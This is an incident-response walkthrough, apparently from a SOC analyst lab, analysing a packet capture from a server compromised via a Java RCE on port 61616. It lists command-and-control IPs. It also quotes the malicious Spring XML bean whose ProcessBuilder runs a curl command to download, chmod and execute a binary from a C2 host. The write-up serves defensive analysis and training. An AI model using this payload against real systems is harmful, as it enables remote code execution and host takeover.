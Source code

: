# Incident Response: Malicious XML Payload Exploitation

### **Scenario**
During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the PCAP and assess for signs of malicious activity.

**Elapsed Time:** `00:04:54`

---

### **Top IPs Identified**
| IP Address        | Location       | Description              |
|-------------------|----------------|--------------------------|
| 84.239.49.16      | Romania        | Unknown                  |
| 146.190.21.92     | Netherlands    | C2 Server                |
| 134.209.197.3     | Netherlands    | Victim                   |
| 128.199.52.72     | Netherlands    | Second C2 Server         |

### **Suspicious Port Traffic**
- **Port 443** (HTTP): 4,833 Packets
- **Port 61616**: Used to execute an RCE by exploiting a Java-based application

The investigation noted suspicious traffic over these ports, leading to further analysis.

---

## **1. Identifying the C2 Servers**
Upon reviewing the packet capture using Wireshark, connections to **`146.190.21.92:8000`** were observed. The server requested an XML file located at `/invoice.xml`, which contained malicious code. This XML file referenced a second IP address, **`128.199.52.72`**, which was initially marked as "clean" but was later identified as another Command and Control (C2) server.

The attacker used this infrastructure to distribute and execute a malicious payload.

---

## **2. Analysis of the Malicious XML Payload**
The payload was delivered through a malicious XML file hosted on **`146.190.21.92`**. The XML file was structured using the Spring framework and contained the following bean configuration:

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
        </list>
    </constructor-arg>
</bean>
```xml

## **3. Identification of the Reverse Shell Executable**
The XML configuration initializes an instance of java.lang.ProcessBuilder, a standard Java class used to execute system commands. The method start() is invoked to execute a shell command (bash -c), which downloads a file named docker from the second C2 server at 128.199.52.72 and saves it in the /tmp directory.

The payload then changes the permissions of the file to make it executable and runs it. This tactic is a typical method used to gain initial access and control over a compromised host.

